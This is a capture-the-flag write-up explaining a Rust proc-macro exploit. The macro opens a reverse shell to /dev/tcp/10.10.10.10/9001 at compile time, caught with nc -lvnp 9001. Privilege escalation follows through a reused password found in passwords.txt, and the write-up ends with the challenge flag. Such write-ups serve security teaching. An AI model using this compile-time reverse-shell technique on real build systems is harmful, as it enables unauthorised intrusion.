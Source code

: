 # Exploit

## Concepts

This exploit uses a Rust compiler feature called "proc macros" (or "procedural macros").

The idea behind these is to allow macro authors to run code at compile-time and generate the code used to substitute the macro invocation dynamically. Generally, these are very useful, but when they come from unsafe sources, they can become harmful and potentially lead to a Remote Code Execution vulnerability.

## What the exploit does

### Phase 1

This exploit is made up of a Rust project that contains one sub-project, called `rev_shell`.

The `rev_shell` subproject declares in its `Cargo.toml` that proc macros are exported by it.
Specifically, the proc macro called `launch_rev_shell` (present in the file `rev_shell/src/lib.rs`) is exported.
That proc macro executes a command at compile-time, which launches a reverse shell.

*Note:* Before using the exploit, you need to change the address from `/dev/tcp/10.10.10.10/9001` to `/dev/tcp/<YOUR_IP>/9001`.

Therefore, when compiling this project, the compilation server will attempt a connection to your computer and, therefore, we need to be able to receive it.
To receive the connection, we need to run netcat in listen mode, in our computer, using `nc -lvnp 9001`.

Now, when the compilation server compiles our exploit, we will gain access in our computer to a shell on the compilation server.

### Phase 2

After having gained access to a shell on the compilation server, we need to find the flag.

By running `find / -name 'flag*'`, we can see that the flag is located under the `/root` folder.
If we try to read the flag using `cat`, we will get a `Permission denied` error. This is because only the root user can read the flag.

So, how do we log in as the root user? We need to find some more hints.

In the home folder of the current user, using the `ls` command, we can see a suspicious file.
That file is called `passwords.txt` and its content is as follows.

```
Google Cloud: rob@sinf.pt rob1989
Facebook: rob.smith@gmail.com rob1989
Slack: rob@sinf.pt (they send code to e-mail)
SINF Website: rob@sinf.pt rob1989
Twitter/X: rob.smith@gmail.com rob1989
```

This is very weird because the same password is used across a multitude of services.
Could this be the root password?

If we run `su` and use `rob1989` as the password, we will see that we get logged in as the root user. Nice!

Now, we can simply run `cat /root/flag.txt` and get the flag `SINFCTF2023{pr0c_m7cr0s_ar3_real1y_us3fu1}`.
